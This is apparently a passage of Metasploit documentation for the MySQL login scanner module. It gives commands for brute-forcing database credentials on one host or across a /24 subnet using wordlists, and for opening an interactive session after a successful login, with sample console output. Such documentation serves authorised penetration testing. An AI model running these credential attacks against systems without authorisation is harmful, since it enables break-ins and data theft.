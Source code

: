 Using an alternative port:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://user:pass@192.168.123.6:2222
```

Brute-force host with known user and password list:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
run cidr:/24:mysql://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### Obtaining an Interactive Session on the Target

The CreateSession option in `auxiliary/scanner/mysql/msql_login` allows you to obtain an interactive session
for the MySQL client you're connecting to. The run command with CreateSession
set to true should give you an interactive session:

```msf
msf > use scanner/mysql/mysql_login 
msf auxiliary(scanner/mysql/mysql_login) > run rhost=127.0.0.1 rport=4306 username=root password=password createsession=true

[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Found remote MySQL version 11.2.2
[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Success: 'root:password'
[*] MySQL session 1 opened (127.0.0.1:53241 -> 127.0.0.1:4306) at 2024-03-12 12:40:46 -0500
[*] 127.0.0.1:4306        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/mysql/mysql_login) > sessions -i -1
[*] Starting interaction with 1...

mysql @ 127.0.0.1:4306 >
```

You can interact with your new session using `sessions -i -1` or `sessions <session id>`.
You can also use `help` to get more information about how to use your session.

```msf
msf auxiliary(scanner/mysql/mysql_login) > sessions

Active sessions
===============

  Id  Name  Type   Information                      Connection
  --  ----  ----   -----------                      ----------
  2         mssql  MSSQL test @ 192.168.2.242:1433  192.168.2.1:61428 -> 192.168.2.242:1433 (192.168.2.242)
  3         mysql  MySQL root @ 127.0.0.1:4306      127.0.0.1:61450 -> 127.0.0.1:4306 (127.0.0.1)

msf auxiliary(scanner/mysql/mysql_login) > sessions -i 3
[*] Starting interaction with 3...
```
